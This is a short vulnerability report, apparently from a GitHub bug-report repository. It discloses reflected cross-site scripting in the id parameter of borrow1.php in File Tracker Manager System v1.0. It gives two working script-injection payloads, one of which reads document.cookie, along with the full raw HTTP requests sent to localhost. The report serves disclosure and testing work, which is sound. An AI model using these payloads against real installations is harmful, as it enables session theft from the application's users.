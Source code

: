 # File Tracker Manager System v1.0 has Cross-site scripting (reflected)

BUG_Author: godownio

Website source address:https://www.sourcecodester.com/php/11510/file-tracker-manager.html

Vulnerability File: /file_manager/normal/borrow1.php

Payload1:/file_manager/normal/borrow1.php?id=1"><script>alert(1111)</script>

```
GET /file_manager/normal/borrow1.php?id=1%22%3E%3Cscript%3Ealert(1111)%3C/script%3E HTTP/1.1
Host: localhost
Cache-Control: max-age=0
sec-ch-ua: "Chromium";v="97", " Not;A Brand";v="99"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Windows"
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: none
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate
Accept-Language: en,zh-CN;q=0.9,zh;q=0.8
Cookie: PHPSESSID=dtt8cginqeu540g2dnor7ulnt3
Connection: close
```

![image](https://github.com/godownio/bug_report/blob/main/vendors/pictures/xss1.png)

Payload2:/file_manager/normal/borrow1.php?id=1"><script>alert(document.cookie)</script>

```
GET /file_manager/normal/borrow1.php?id=1%22%3E%3Cscript%3Ealert(document.cookie)%3C/script%3E HTTP/1.1
Host: localhost
sec-ch-ua: "Chromium";v="97", " Not;A Brand";v="99"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Windows"
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: none
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate
Accept-Language: en,zh-CN;q=0.9,zh;q=0.8
Cookie: PHPSESSID=dtt8cginqeu540g2dnor7ulnt3
Connection: close
```

![image](https://github.com/godownio/bug_report/blob/main/vendors/pictures/xss2.png)
